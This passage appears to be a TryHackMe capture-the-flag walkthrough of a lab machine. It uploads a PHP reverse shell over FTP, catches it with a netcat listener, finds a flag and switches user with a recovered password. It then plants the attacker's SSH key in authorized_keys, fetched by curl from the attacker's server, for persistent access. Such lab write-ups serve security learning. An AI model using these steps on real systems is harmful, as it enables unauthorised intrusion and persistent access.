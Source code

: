 - As it is apache we can try to use a php reverse shell. Lets take the one from [pentestmonkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)
- We modify the IP address and port as we wish
- we set up our listener `rlwrap nc -lvp 1234` (rlwrap will allow us to have a more interactive shell which is pretty convenient)
- We put ou reverse shell on the ftp 
```
ftp> put php-reverse-shell.php
local: php-reverse-shell.php remote: php-reverse-shell.php
200 EPRT command successful. Consider using EPSV.
150 Ok to send data.
100% |******************************************************************************************************************************************************************|  5493       11.19 MiB/s    00:00 ETA
226 Transfer complete.
5493 bytes sent in 00:00 (8.73 KiB/s)
```
- And now we can navigate to our shell using our browser `http://10.10.4.129/php-reverse-shell.php`
- We get a shell!!
```
whoami
apache
sh-4.4$ 
```
- Let's use the command find to find a flag `find / -name *flag* 2>/dev/null`
There is one here: `/usr/share/httpd/web.flag`
- We have the web flag
- We could try the passwords we got previously with the su command
- Let's try with james we get failure with all three pass. Lets try with paradox, it works with the password ShibesAreGreat123
- If we ls -al the home directory we have an authorized key for paradox so we could replace it with our public key to have a more stable shell. Lets generate an rsa_key
```
┌──(root💀kali)-[~/Documents/tryhackme/overpass3]
└─# ssh-keygen                                                                                                                                                                                             1 ⨯
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): /root/Documents/tryhackme/overpass3/private
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /root/Documents/tryhackme/overpass3/private
Your public key has been saved in /root/Documents/tryhackme/overpass3/private.pub
The key fingerprint is:
SHA256:dpZvvEmhvr7eAEjEaGtCxsvxUKzvQ0waY0fTMmAZTLE root@kali
The key's randomart image is:
+---[RSA 3072]----+
| +*B.+.          |
| .O.O.o          |
| +EO =.          |
|  O *. .   .     |
| . @  . S + .    |
|  . +  . + + .   |
|   o      o =    |
|    o    . = o   |
|     .   o*o+    |
+----[SHA256]-----+
```
- Now we just need to replace the authorized_keys fil with our public key. First we copy our private key in an authorized_keys file `cp private.pub authorized_keys`
- Then we laucn an http server `python3 -m http.server 80`
- wget does not work in our target so we can use curl instead `curl http://10.13.22.56/authorized_keys --output authorized_keys`
- And now the authorized keys is our public key
